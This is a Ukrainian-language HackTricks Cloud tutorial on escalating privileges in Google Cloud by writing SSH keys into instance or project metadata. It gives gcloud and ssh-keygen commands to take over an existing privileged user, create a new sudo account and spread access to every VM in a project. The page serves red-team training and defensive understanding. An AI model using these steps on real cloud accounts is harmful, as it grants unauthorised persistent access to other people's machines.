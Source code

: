 # GCP - Додати Користувацькі SSH Метадані

## GCP - Додати Користувацькі SSH Метадані

{% hint style="success" %}
Вивчайте та практикуйте AWS Хакінг:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Хакінг: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримати HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на GitHub.

</details>
{% endhint %}

### Модифікація метаданих <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Модифікація метаданих на екземплярі може призвести до **значних ризиків безпеки, якщо зловмисник отримає необхідні дозволи**.

#### **Включення SSH ключів у Користувацькі Метадані**

На GCP, **Linux системи** часто виконують скрипти з [Python Linux Guest Environment for Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). Критичним компонентом цього є [демон облікових записів](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), який призначений для **регулярної перевірки** кінцевої точки метаданих екземпляра на **оновлення авторизованих SSH публічних ключів**.

Отже, якщо зловмисник може модифікувати користувацькі метадані, він може змусити демон знайти новий публічний ключ, який буде оброблений і **інтегрований у локальну систему**. Ключ буде додано до файлу `~/.ssh/authorized_keys` **існуючого користувача або потенційно створити нового користувача з привілеями `sudo`**, залежно від формату ключа. І зловмисник зможе скомпрометувати хост.

#### **Додати SSH ключ до існуючого привілейованого користувача**

1. **Перевірте Існуючі SSH Ключі на Екземплярі:**
*   Виконайте команду для опису екземпляра та його метаданих, щоб знайти існуючі SSH ключі. Відповідний розділ у виході буде під `metadata`, зокрема ключ `ssh-keys`.

```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
* Зверніть увагу на формат SSH ключів: ім'я користувача передує ключу, розділене двокрапкою.
2. **Підготуйте Текстовий Файл для Метаданих SSH Ключа:**
* Збережіть деталі імен користувачів та їх відповідних SSH ключів у текстовому файлі з назвою `meta.txt`. Це важливо для збереження існуючих ключів під час додавання нових.
3. **Згенеруйте Новий SSH Ключ для Цільового Користувача (`alice` у цьому прикладі):**
*   Використовуйте команду `ssh-keygen` для генерації нового SSH ключа, переконавшись, що поле коментаря (`-C`) відповідає цільовому імені користувача.

```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
* Додайте новий публічний ключ до `meta.txt`, імітуючи формат, знайдений у метаданих екземпляра.
4. **Оновіть Метадані SSH Ключа Екземпляра:**
*   Застосуйте оновлені метадані SSH ключа до екземпляра, використовуючи команду `gcloud compute instances add-metadata`.

```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```
5. **Отримайте Доступ до Екземпляра Використовуючи Новий SSH Ключ:**
*   Підключіться до екземпляра за допомогою SSH, використовуючи новий ключ, отримуючи доступ до оболонки в контексті цільового користувача (`alice` у цьому прикладі).

```bash
ssh -i ./key alice@localhost
sudo id
```

#### **Створіть нового привілейованого користувача та додайте SSH ключ**

Якщо жодного цікавого користувача не знайдено, можна створити нового, якому будуть надані привілеї `sudo`:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
#### SSH ключі на рівні проекту <a href="#sshing-around" id="sshing-around"></a>

Можливо розширити доступ до SSH для кількох віртуальних машин (VM) у хмарному середовищі, **застосувавши SSH ключі на рівні проекту**. Цей підхід дозволяє доступ до SSH до будь-якого екземпляра в проекті, який не заблокував SSH ключі на рівні проекту. Ось узагальнений посібник:

1. **Застосуйте SSH ключі на рівні проекту:**
*   Використовуйте команду `gcloud compute project-info add-metadata`, щоб додати SSH ключі з `meta.txt` до метаданих проекту. Ця дія забезпечує визнання SSH ключів на всіх VM у проекті, якщо тільки VM не має увімкненої опції "Блокувати SSH ключі на рівні проекту".

```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```
2. **SSH до екземплярів, використовуючи ключі на рівні проекту:**
* З ключами на рівні проекту ви можете SSH до будь-якого екземпляра в проекті. Екземпляри, які не блокують ключі на рівні проекту, приймуть SSH ключ, надаючи доступ.
* Прямий спосіб SSH до екземпляра - це використання команди `gcloud compute ssh [INSTANCE]`. Ця команда використовує ваше поточне ім'я користувача та SSH ключі, встановлені на рівні проекту, щоб спробувати отримати доступ.

## Посилання

* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{% hint style="success" %}
Вчіться та практикуйте AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Вчіться та практикуйте GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на GitHub.

</details>
{% endhint %}
